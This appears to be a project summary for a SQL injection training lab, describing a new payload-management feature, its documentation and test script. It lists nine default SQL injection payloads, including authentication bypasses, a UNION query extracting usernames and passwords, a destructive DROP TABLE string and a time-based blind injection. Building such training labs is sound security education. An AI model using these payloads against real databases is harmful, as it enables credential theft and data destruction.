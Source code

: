 ### Key Functions Implemented
- `addPayload()` - Adds new custom payloads with validation
- `deletePayload(index)` - Removes payloads by index
- `startEditPayload(index)` - Initiates inline editing
- `saveEditPayload()` - Saves edited payload
- `cancelEditPayload()` - Cancels editing without saving

### UI/UX Enhancements
- **Responsive Design**: Works on all screen sizes
- **Cyberpunk Theme**: Consistent with lab visual identity
- **Smooth Animations**: Hover effects and transitions
- **Accessibility**: Keyboard navigation and clear visual feedback
- **Error Prevention**: Input validation and duplicate checking

## 📚 Documentation Created

### 1. **PAYLOAD_MANAGEMENT_GUIDE.md**
- Comprehensive user guide for the new feature
- Step-by-step instructions for all functionality
- Examples of payload categories and usage
- Best practices for learning and testing
- Security warnings and ethical guidelines

### 2. **test-payload-features.bat**
- Automated testing script for the new feature
- Docker environment setup and verification
- Browser opening and navigation instructions
- Feature testing checklist
- Expected behavior documentation

### 3. **Updated README.md**
- Added interactive payload management to features list
- Detailed usage instructions in the Usage Guide section
- Enhanced Quick Start guide with payload management steps

### 4. **Updated PROJECT_COMPLETE.md**
- Added payload management as a key achievement
- Detailed technical specifications
- Usage scenarios and benefits

## 🎯 Default Payloads Included

The system comes pre-loaded with 9 essential SQL injection payloads:

1. `' OR '1'='1' --` - Basic boolean-based bypass
2. `' OR 1=1 --` - Numeric boolean-based bypass  
3. `admin' --` - Username-based bypass
4. `' UNION SELECT username, password FROM users --` - UNION-based attack
5. `' OR username='admin' --` - Conditional bypass
6. `1' OR '1'='1` - Alternative boolean bypass
7. `'; DROP TABLE users; --` - Destructive payload (for testing)
8. `' OR SLEEP(5) --` - Time-based blind injection
9. Complex UNION payload for information extraction
